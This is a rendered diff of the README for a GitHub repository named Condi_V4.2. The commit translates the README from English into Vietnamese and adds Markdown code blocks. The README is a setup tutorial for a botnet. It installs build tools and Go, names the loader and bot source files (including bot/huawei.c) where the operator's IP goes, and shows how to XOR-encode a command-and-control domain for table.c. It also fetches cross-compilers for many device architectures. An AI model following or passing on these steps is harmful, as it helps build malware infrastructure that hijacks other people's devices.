

Before and after one commit to DauDau432/Condi_V4.2, a Markdown page: README.md, the part around the change printed below. Shown: that part at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,15 +1,17 @@
-TUT made by zxcr9999
+TUT của zxcr9999
 
-// Copy and paste all to ur shit vps
-
+### Sao chép và dán tất cả vào shit vps của bạn
+```
 yum update -y
 yum install epel-release -y
 yum groupinstall "Development Tools" -y
 yum install gmp-devel -y
 ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
 yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
+```
 
-
+### cài đặt golang
+```
 cd /tmp
 wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
 sha256sum go1.13.linux-amd64.tar.gz
@@ -23,28 +25,38 @@ source ~/.bash_profile
 go version
 go env
 cd ~/
+```
 
-// change ip
+### thay đổi ip
+```
 loader/src/main.c
 loader/src/headers/config.h
 dlr/main.c
 bot/huawei.c
 bot/util.c
+```
 
-// added domain
-drag file enc.c to ur vps and type command
+### thêm tên miền
+
+kéo tệp `enc.c` vào vps của bạn và gõ lệnh
+```
 gcc enc.c -o enc -std=c99
+```
+```
 ./enc string botnet.yourdomain.com
-and add TABLE_CNC_DOMAIN in table.c file
-"botnet.yourdomain.com" is your domain, and it is connected to the IP to host the botnet
+```
+và thêm `TABLE_CNC_DOMAIN` vào trong tệp `table.c`
 
-add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);
+`botnet.yourdomain.com` là tên miền của bạn và nó được kết nối với IP để lưu trữ botnet
 
-number 17 will correspond to xor bytes
+`add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);`
 
+số 17 sẽ tương ứng với byte xor
+```
 mkdir /etc/xcompile
 cd /etc/xcompile
-
+```
+```
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
@@ -57,7 +69,8 @@ wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.ta
 wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
 wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2
-
+```
+```
 tar -jxf cross-compiler-i586.tar.bz2
 tar -jxf cross-compiler-m68k.tar.bz2
 tar -jxf cross-compiler-mips.tar.bz2
@@ -70,4 +83,6 @@ tar -jxf cross-compiler-armv5l.tar.bz2
 tar -jxf cross-compiler-armv6l.tar.bz2
 tar -jxf cross-compiler-armv7l.tar.bz2
 tar -jxf cross-compiler-x86_64.tar.bz2
+```
+```
 rm -rf *.tar.*
````
Also changed, not shown: other parts of README.md (+22 -15 lines).
